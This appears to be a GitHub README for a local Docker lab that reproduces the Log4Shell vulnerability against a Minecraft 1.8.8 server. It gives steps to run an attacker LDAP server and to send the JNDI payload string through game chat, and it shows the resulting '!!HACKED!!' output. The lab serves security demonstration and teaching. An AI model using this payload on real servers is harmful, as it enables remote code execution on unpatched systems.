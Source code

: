 # Overview



## Setting up the environment

- Download [Docker](https://www.docker.com/products/docker-desktop/)
- Launch your [Minecraft](https://www.minecraft.net/en-us/download) game and install version 1.8.8 (Installations > New Installations > release 1.8.8).
- Install [Python 3+](https://www.python.org/downloads/)
- Java 8 ([build 181](https://archive.org/download/Java-Archive/Java%20SE%208%20%288u202%20and%20earlier%29/8u181/JDK/))

## Starting up the Minecraft server on Docker


1. Build the docker image:
```
docker build -t linux-server .
```
2. Run the docker image (iterative mode):
```
docker run -it -p 25565:25565 --name mcserver linux-server
```


The command above will start up a Docker container that is running the minecraft server (`minecraft_server.1.8.8.jar`). 



## Starting up a Malicious Server

Now we will starup an LDAP server that will serve the exploit (`MinecraftLog4J.java`).

1. Build the docker file for the malicious server
```
docker build -f Dockerfile_evil_server -t evil-image .
```

2. Run the docker image 

```
docker run -it -p 1389:1389 -p 8000:8000 --name evil-server evil-image
```

## Connect to the Minecraft Server from the Host Machine

After running the Docker container, you should be able to connect to the Minecraft server from the host machine:

1. Launch the Minecraft game on your host machine (release 1.8.8).
2. Select "Multiplayer"
3. Click "Add Server" and enter the following:
- Server Name: Any name you like.
- Server Address: localhost (or 127.0.0.1).
- Save and click "Join Server" to connect.

4. Once in game, type in chat:

```
${jndi:ldap://host.docker.internal:1389/MinecraftLog4J}
```


You will see in the output of your Minecraft server docker, a message like this:

```
[HH:MM:SS] [Server thread/INFO]: <PlayerName> ${jndi:ldap://host.docker.internal:1389/MinecraftLog4J}
!!HACKED!! (OS = linux )
!!HACKED!! (OS = linux )
```

This means that the exploit did execute succesfully.



